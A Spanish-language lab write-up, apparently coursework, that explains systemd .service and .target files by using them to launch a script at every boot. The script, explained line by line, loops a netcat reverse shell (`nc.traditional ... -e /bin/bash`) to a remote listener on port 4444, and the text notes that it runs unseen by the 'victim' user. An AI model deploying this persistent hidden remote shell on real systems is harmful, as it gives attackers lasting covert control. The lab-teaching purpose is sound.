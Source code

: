 # __Creació d'entorns d'arrancada__
Esta práctica trata sobre la creación de servicios (`.service`) y targets (`.target`) en Ubuntu, conceptos fundamentales en la administración de sistemas y ciberseguridad.

![archivos](./img/CreacioEntornsArrancada/CreacioEntornsArrancada1.png)

- Un archivo **`.service`** define un servicio gestionado por *systemd*, como ejecutar automáticamente un script al iniciar el equipo. Por ejemplo, se puede usar para levantar una reverse shell en un entorno de pruebas de ciberseguridad.
- Un archivo **`.target`** agrupa varios servicios y otros targets, permitiendo organizar y controlar el arranque de múltiples componentes relacionados.
- El directorio **`.wants`** se genera automáticamente por *systemd* para cada target y contiene enlaces simbólicos a los servicios que deben iniciarse junto con ese target. Así, al activar un target, se activan todos los servicios asociados en su `.wants`.

En resumen: los `.service` definen tareas concretas, los `.target` agrupan servicios, y los `.wants` gestionan qué servicios se inician con cada target.



## __.service__
El siguiente es un ejemplo de archivo `.service`:

![service](./img/CreacioEntornsArrancada/CreacioEntornsArrancada2.png)


**Explicación línea por línea:**

- `[Unit]`: Sección donde se describe el propósito del servicio y sus dependencias.
    - `Description=Servicio pt1 que ejecuta pt1.sh`: Breve descripción del servicio.
    - `After=network.target`: Indica que el servicio debe iniciarse después de que la red esté disponible.

- `[Service]`: Sección principal que define cómo se ejecuta el servicio.
    - `ExecStart=/usr/local/bin/pt1.sh`: Comando que se ejecuta al iniciar el servicio (en este caso, el script `pt1.sh`).
    - `Restart=always`: El servicio se reiniciará automáticamente si se detiene por cualquier motivo.
    - `Type=simple`: Indica que el servicio se considera activo mientras el proceso principal esté en ejecución.
    - `TimeoutStartSec=0`: No hay tiempo de espera para que el servicio arranque; se inicia inmediatamente.

- `[Install]`: Sección que define cómo y cuándo se activa el servicio.
    - `WantedBy=pt1.target`: Permite que el servicio se active automáticamente cuando se inicia el target `pt1.target`.



## __.target__
El siguiente es un ejemplo de archivo `.target`:

![target](./img/CreacioEntornsArrancada/CreacioEntornsArrancada3.png)

**Explicación línea por línea:**

- `[Unit]`: Sección donde se describe el propósito del target y sus dependencias.
    - `Description=Target personalizado pt1`: Breve descripción del target.
    - `Requires=pt1.service`: Indica que este target necesita que el servicio `pt1.service` esté activo.
    - `After=network.target`: Especifica que este target debe iniciarse después de que la red esté disponible.

- `[Install]`: Sección que define cómo y cuándo se activa el target.
    - `WantedBy=default.target`: Permite que el target se active automáticamente al arrancar el sistema, ya que `default.target` es el objetivo principal de arranque en la mayoría de sistemas Linux.



## __¿Por qué se genera automáticamente un directorio `.target.wants`?__

Cuando se instala un servicio con la opción `WantedBy` en su archivo `.service`, *systemd* crea automáticamente un directorio llamado `.target.wants` para el target especificado. Dentro de este directorio, se añaden enlaces simbólicos a los servicios que deben iniciarse junto con ese target. Esto permite que, al activar el target, se ejecuten todos los servicios asociados de forma automática y ordenada, facilitando la gestión de dependencias y el arranque de componentes relacionados.

![wants](./img/CreacioEntornsArrancada/CreacioEntornsArrancada4.png)

Se generará automáticamente más adelante, no hace falta crearlo.



## __.script__
El siguiente es un ejemplo de archivo `.sh`:

![script](./img/CreacioEntornsArrancada/CreacioEntornsArrancada5.png)

Voy a realizar una prueba ejecutando el script manualmente para comprobar si puedo conectarme correctamente al equipo remoto. Esto me permitirá verificar que la configuración y el funcionamiento del script son correctos antes de automatizar el proceso con systemd.

![script](./img/CreacioEntornsArrancada/CreacioEntornsArrancada7.png)



**Explicación línea por línea:**

- `SERVER_IP="192.168.1.100"`: Define la IP del equipo remoto que recibirá la conexión.
- `PORT=4444`: Especifica el puerto en el que el equipo remoto está escuchando.
- `while true; do ... done`: Bucle infinito para intentar la conexión continuamente.
- `nc.traditional $SERVER_IP $PORT -e /bin/bash`: Usa Netcat para conectar al equipo remoto y ejecutar Bash, proporcionando una shell interactiva.
- `sleep 10`: Si la conexión falla, espera 10 segundos antes de volver a intentarlo.

## __Pasos para aplicar los cambios y activar los servicios automáticamente__

**Recargar la configuración de systemd:**
    
    sudo systemctl daemon-reload
    

**Habilitar el servicio y el target para que se inicien automáticamente:**
    
    sudo systemctl enable pt1.service
    sudo systemctl enable pt1.target
    

Esto crea los enlaces simbólicos en los directorios `.wants` correspondientes.

**Iniciar manualmente el target (opcional, para comprobar que funciona):**
    
    sudo systemctl start pt1.target
    

**Verificar el estado del servicio y del target:**
    
    systemctl status pt1.service
    systemctl status pt1.target
    

Con estos pasos, el servicio y el target estarán configurados para arrancar automáticamente cada vez que se inicie el sistema.

![script](./img/CreacioEntornsArrancada/CreacioEntornsArrancada6.png)


## __Demostración en vídeo__

A continuación se muestra un vídeo donde se reinicia la máquina virtual y se verifica que la conexión al equipo remoto se establece automáticamente, gracias a la configuración realizada con systemd. Este proceso ocurre de manera transparente para el usuario de la máquina víctima, demostrando cómo los servicios y targets permiten automatizar tareas en el arranque del sistema sin intervención manual.

<video controls src="../vids/CreacioEntornsArrancada.mp4" title="Demostración"></video>